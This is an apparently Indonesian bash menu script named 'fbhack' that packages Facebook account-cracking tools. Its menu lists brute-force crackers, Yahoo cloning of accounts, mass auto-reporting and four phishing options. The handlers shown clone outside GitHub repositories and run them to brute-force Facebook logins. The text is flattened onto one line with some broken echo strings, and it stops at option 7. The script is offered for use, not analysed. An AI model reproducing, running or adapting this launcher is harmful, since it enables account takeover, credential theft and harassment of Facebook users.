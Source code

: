 # fbhack
#usr/bin/bash clear                                                                 bi='\033[34;1m' #biru i='\033[32;1m' #ijo pur='\033[35;1m' #purple                                              cy='\033[36;1m' #cyan me='\033[31;1m' #merah pu='\033[37;1m' #putih ku='\033[33;1m' #kuning # [SUBSCRIBE] Pengangguran Muda figlet -f standard FB Tools | lolcat echo echo  " ____________________-=[Private Tools]=-________________      > echo  "|                                                             > echo  "|              Root®Autor      : ZONK                         > echo  "|              Youtube         : BELUM ADA          |" |      > echo  "|              Thanks to       : ZONK                         > echo  "|_______________________________________________________      > date | lolcat echo echo $i"========================================" echo $i"|"$me" 0"$i" |"$pu" INSTALL BAHAN" echo $i"========================================" echo $i"|"$me" 1"$i" |"$pu" BRUTEFORCE FB PHP" echo $i"|"$me" 2"$i" |"$pu" BRUTEFORCE FB v.1" echo $i"|"$me" 3"$i" |"$pu" BRUTEFORCE FB v.1.2" echo $i"|"$me" 4"$i" |"$pu" BRUTEFORCE FB v.1.3" echo $i"|"$me" 5"$i" |"$pu" BRUTEFORCE FB v.1.4" echo $i"|"$me" 6"$i" |"$pu" BRUTEFORCE FB "$me"[Root Access]" echo $i"────────────────────────────────" echo $i"|"$me" 7"$i" |"$pu" YAHOO CLONING FACEBOOK" echo $i"|"$me" 8"$i" |"$pu" PROFILE GUARD FACEBOOK" echo $i"|"$me" 9"$i" |"$pu" AUTO REPORT FACBOOK" echo $i"|"$me"10"$i" |"$pu" AUTO REACTION FACEBOOK" echo $i"|"$me"11"$i" |"$pu" AUTO LIKE FACEBOOK" echo $i"|"$me"12"$i" |"$pu" AUTO KOMEN FACEBOOK" echo $i"|"$me"13"$i" |"$pu" INFORMATION FACEBOOK" echo $i"────────────────────────────────" echo $i"|"$me"14"$i" |"$pu" PHISING FACEBOOK 1" echo $i"|"$me"15"$i" |"$pu" PHISING FACEBOOK 2" echo $i"|"$me"16"$i" |"$pu" PHISING FACEBOOK 3" echo $i"|"$me"17"$i" |"$pu" PHISING FACEBOOK 4" echo $i"========================================" echo $i"|"$me"18"$i" |"$pu" EXIT" echo $i"========================================" echo echo $me"┌==="$bi"["$i"ZONK"$bi"]"$me"======"$bi"["$i""Masukan       > echo $me"¦" read -p"└──# " pil  if [ $pil = 0 ] then clear apt update &amp;&amp; apt upgrade apt install python2 pip2 install urllib3 chardet certifi idna requests pkg install git pip2 install mechanize pkg install curl pkg install ruby pkg install gem gem install lolcat pkg install git pkg install php pkg install ruby cowsay toilet figlet pkg install neofetch pkg install nano figlet -f slant " SUCCESS "|lolcat fi  if [ $pil = 1 ] then clear figlet -f slant "WAIT"|lolcat sleep 1  git clone https://github.com/FR13ND8/fbbrute cd fbbrute php fb.php fi  if [ $pil = 2 ] then clear figlet -f slant "WAIT"|lolcat sleep 1 git clone https://github.com/FR13ND8/Fb-Cracker-v.3 cd Fb-Cracker-v.3 python2 crack.py fi  if [ $pil = 3 ] then clear figlet -f slant "WAIT"|lolcat sleep 1 git clone https://github.com/IqbalzNoobs/fb-brute cd fb-brute python2 brute.py                                                       fi  if [ $pil = 4 ]                                                       then then clear figlet -f slant "WAIT"|lolcat sleep 1 git clone https://github.com/FR13ND8/mbf cd mbf python2 MBF.py fi  if [ $pil = 5 ] then clear figlet -f slant "WAIT"|lolcat sleep 1                                                               git clone https://github.com/N1ght420/FaceBrute cd FaceBrute python fb.py fi  if [ $pil = 6 ] then clear figlet -f slant " sleep 1 git clone https://github.com/thelinuxchoice/facebash.git cd facebash bash facebash.sh fi  if [ $pil = 7 ]
